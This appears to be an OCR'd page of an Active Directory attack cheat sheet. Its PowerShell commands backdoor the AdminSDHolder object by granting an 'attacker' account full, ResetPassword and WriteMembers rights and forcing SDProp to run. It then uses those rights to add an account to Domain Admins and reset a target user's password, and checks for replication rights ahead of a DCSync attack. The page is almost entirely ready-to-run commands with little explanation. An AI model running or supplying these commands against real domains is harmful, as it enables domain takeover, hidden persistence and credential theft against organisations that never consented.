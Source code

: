 Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName attacker -Rights All -Verbose

- Using ActiveDirectory Module and Set-ADACL

Set-ADACL -DistinguishedName

'CN=AdminSDHolder,CN=System,DC=test,DC=domain,DC=local' -Principal attacker -Verbose

- Interesting permissions (ResetPassword, WriteMembers)

Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName attacker -Rights ResetPassword -Verbose

#

Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName attacker -Rights WriteMembers -Verbose

- Run SDProp manually

Import-Module Invoke-SDPropagator.ps1

Invoke-SDPropagator -timeoutMinutes 1 -showProgress -Verbose

- Check the Domain Admins permission

Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference match 'attacker'}

(Get-Acl -Path 'AD:\CN=Domain Admins,CN=Users,DC=lab,DC=domain,DC=local').Access |

?{$_.IdentityReference -match 'attacker'}

- Abusing FullControl using PowerView_dev

Add-DomainGroupMember -Identity 'Domain Admins' -Members attackerda -Verbose

Add-ADGroupMember -Identity 'Domain Admins' -Members attackerda

- Abusing ResetPassword using PowerView_dev

Set-DomainUserPassword -Identity targetaccount -AccountPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose

Set-ADAccountPassword -Identity targetaccount -NewPassword (ConvertTo-SecureString

"Password@123" -AsPlainText -Force) -Verbose

### CHECK REPLICATION RIGHTS, MODIFY, DCSYNC ATTACK

# CHECK

. .\PowerView.ps1

Get-ObjectAcl -DistinguishedName "dc=domain,dc=local" -ResolveGUIDs |

?{($_.IdentityReference -match "targetuser") -and (($_.ObjectType -match 'replication') -or

($_.ActiveDirectoryRights -match 'GenericAll'))}
